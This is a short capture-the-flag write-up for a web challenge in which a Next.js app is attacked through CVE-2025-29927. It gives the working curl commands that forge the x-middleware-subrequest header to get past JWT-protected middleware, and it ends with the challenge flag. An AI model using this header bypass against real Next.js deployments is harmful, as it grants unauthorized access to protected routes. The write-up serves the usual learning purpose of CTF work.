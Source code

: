 ## FalseStart
> **Category:** web  

### Challenge Overview
We were given a deployed instance of a web app, and its sourc code. Upon opening up the source code, I notice its a NextJS app. It was using an older NextJS version, which is vulnerable to `CVE-2025-29927`.

### Code Review
Code was pretty limited, and the only interesting thing was use of a middleware and the endpoint `/flag`. However it was secured behing a jwt token verification.  

#### Approach
I tried to use the latest NextJS exploit with ```curl -v -X GET "http://iitmandi.co.in:8093/flag" -H "x-middleware-subrequest: middleware"```
and ```curl -v -X GET "http://iitmandi.co.in:8093/flag" -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"``` which both failed.

Finally I tried - 
```curl -v -X GET "http://iitmandi.co.in:8093/flag" -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"``` which bypassed the middleware and finally gave me the flag!

**Flag:** saic{1t_w4s_N3v3r_4b0ut_th3_JWT}
